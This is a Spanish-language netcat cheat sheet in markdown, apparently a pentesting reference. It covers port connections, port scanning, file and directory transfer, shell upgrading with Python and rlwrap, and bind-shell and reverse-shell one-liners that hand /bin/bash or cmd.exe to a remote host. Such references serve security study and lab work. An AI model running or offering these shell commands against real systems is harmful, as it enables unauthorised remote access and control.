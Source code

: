### Conexion a puertos
	Servidor
	nc -lvp 1000
	
	Cliente
	nc 127.0.0.1 1000

### Conectar con DNS de google 
	nc -v -u 8.8.8.8 53

### Conectar a una Web
	nc -v plaintext.do 80
	GET / HTTP/1.1
	
### Escaneo de puertos 
	nc -z -vv plaintext.do 78-81
	nc -z -vv 185.199.109.153 78-81
	nc -z -vvn 185.199.109.153 78-81 | evitar inverse host lookup
	
### Transferencia de archivos
	Para Recibir 
	nc -lvnp 1000 > file.txt
	
	Para Enviar
	nc ipreceptor 1000 < file.txt 
	
	Usar md5sum para confirmar que el archivo transferido es identico al recibido
	md5sum file.txt 
	
### Transferencia de grupo de archivos y directorios 
	Para recibir 
	nc -lvnp 1000 | tar -xvf -
	
	Para enviar
	tar -cvf - directorio/ | nc 127.0.0.1 1000

### BindShell
	Servidor
	nc -lvnp 2000 -e /bin/bash (linux)
	nc -lvnp 2000 -e cmd.exe (windows)
	
	Cliente 
	nc 192.168.249.128 2000
	
### Reverse shell
	Servidor 
	nc 192.168.249.128 2000 -e /bin/bash (linux)
	nc 192.168.249.128 2000 -e cmd.exe (windows)
	
	Cliente 
	nc -lvnp 2000
	
	
### python tty 
	python -c "import tty;tty.spawn('/bin/bash')"
	CTRL + Z
	stty raw -echo
	fg
	ENTER

## rlwrap 
rlwrap - https://twitter.com/4lex/status/1099803151832633350

### Instalar rlwrap
	apt-get install rlwrap
	
#### Permite utilizar:
	Teclas de subir y bajar, para el historial de comandos.
	ctrl + L - (limpiar pantalla) 
	Tab auto completar (linux)
	
	rlwrap -c nc -lvnp 2000
	rlwrap -c nc 192.168.249.1 4444 -e /bin/bash 